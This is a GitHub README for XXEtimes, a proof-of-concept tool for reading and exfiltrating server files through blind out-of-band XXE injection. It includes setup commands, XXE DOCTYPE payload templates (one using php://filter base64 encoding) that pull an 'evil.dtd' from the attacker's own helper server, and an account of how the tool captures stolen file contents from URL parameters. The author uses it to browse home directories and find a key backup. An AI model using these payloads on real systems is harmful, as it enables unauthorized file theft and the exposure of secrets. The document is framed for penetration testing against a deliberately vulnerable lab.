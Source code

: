 # XXEtimes
XXEtimes is a self-contained PoC to make exploring and exfiltrating files through OOB XXE much quicker.

I come across blind XXE injection vulnerabilities quite a bit, and love using OOB techniques to read files and directory contents, but it's a very tedious process.

Usually it's a multi-step process that involves using Burp Suite Repeater to send the malicious request, a web server to serve up the crafted DTD file, and another listening server to capture the OOB HTTP request which contains file contents. And to change file or directory I have to manually modify the DTD and resend the request each time.

I got sick of the setup time and spinning up servers, so I wrote XXEtimes. Its aim is to be a self-contained tool to aid in data exfiltration once an OOB XXE injection has been discovered. It parses a request file from Burp, spins up a webserver, serves a DTD, and parses responses for file contents. It continually runs and lets you just type files or directories you want to exfiltrate.

See it in action here. I used it to browse home directories and find an unprotected key backup:

[![asciicast](https://asciinema.org/a/122903.png)](https://asciinema.org/a/122903?autoplay=1)

## Setting Up
```
git clone https://github.com/ropnop/xxetimes.git
cd xxetimes
pip install requests
python xxetimes.py
```

The script requires a request file. Once you have found an XXE injection in Burp, export the request file to txt. Add the following DOCTYPE declaration to the request:

```
<!DOCTYPE foo [
<!ENTITY % file SYSTEM "file://{targetFilename}">
<!ENTITY % dtd SYSTEM "http://{xxeHelperServerInterface}:{xxeHelperServerPort}/evil.dtd">
%dtd;]>
```

If you know the parser is PHP, base64 encoding the file works best (with the builtin php://filter). Your DTD should look like this:
```
<!DOCTYPE foo [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///{targetFilename}">
<!ENTITY % dtd SYSTEM "http://{xxeHelperServerInterface}:{xxeHelperServerPort}/evil.dtd">
%dtd;
]>
```

The special params in "{}" are necessary for XXEtimes to work. There is an example request file in the repo. This works with the deliberately vulnerable [PlayXXE challenge](https://pentesterlab.com/exercises/play_xxe) from Pentesterlab if you want to test it.

## Usage

```
$ python xxetimes.py -h
usage: xxetimes.py [-h] -f REQUESTFILE [-p PORT] [-t TARGETHOST]
                   [-l LISTENPORT] -i INTERFACE [--b64]

Local File Explorer Using XXE DTD Entity Expansion

optional arguments:
  -h, --help            show this help message and exit
  -f REQUESTFILE, --requestFile REQUESTFILE
                        Vulnerable request file with {targetFilename},
                        {xxeHelperServerInterface}, and {xxeHelperServerPort}
                        marked
  -p PORT, --port PORT  Port on target host (eg 80, 443)
  -t TARGETHOST, --targetHost TARGETHOST
                        Override host header in request file
  -l LISTENPORT, --listenPort LISTENPORT
                        Port for local DTD helper server
  -i INTERFACE, --listenIP INTERFACE
                        Bind IP address for local DTD helper server
  --b64                 Flag if data will be base64 encoded (e.g. using php's
                        convert.base64 function for files)
```

It will likely require customization and tweaking for each specific vulnerability, but as long as the locations `{targetFilename}`, `{xxeHelperServerInterface}` and `{xxeHelperServerPort}` are present it should work.

Once you have your request file created with the appropriate injection points marked, fire it up with:

`python xxetimes.py -f request.txt -i <IP address to listen on>`

After the server spins up, simply type in the file or directory you wish to request (note: if the file doesn't exist or you don't have permissions, it will fail silently and display nothing)

On the backend, XXEtimes is customizing the "evil.dtd." file to define the `file` entity for what you enter. It then sends the malicious request, listens for the request for 'evil.dtd', serves up `evil.dtd`, listens for the subsequent request which contains the file contents in a URL parameter, then decodes file contents and displays it on screen.

To shutdown gracefully, enter `Ctrl-C`.



## Testing it out
Since I didn't want to write an actually vulnerable server, I've been testing with the "Play XXE" challenge ISO located here. 

<https://pentesterlab.com/exercises/play_xxe/course>

It's a bootable ISO you can run locally if you want to test it. It is vulnerable to XXE on the main login page, and the example request should work out of the box on it (as long as the IP address is updated!)


## Future plans
The code is pretty hacky but is intended to serve as a PoC for now. I'd like to clean it up and make it more stable eventually.

- [ ] Support history and "up arrow" completion
- [ ] Save files locally once they're retrieved
- [ ] Support other OOB methods like FTP
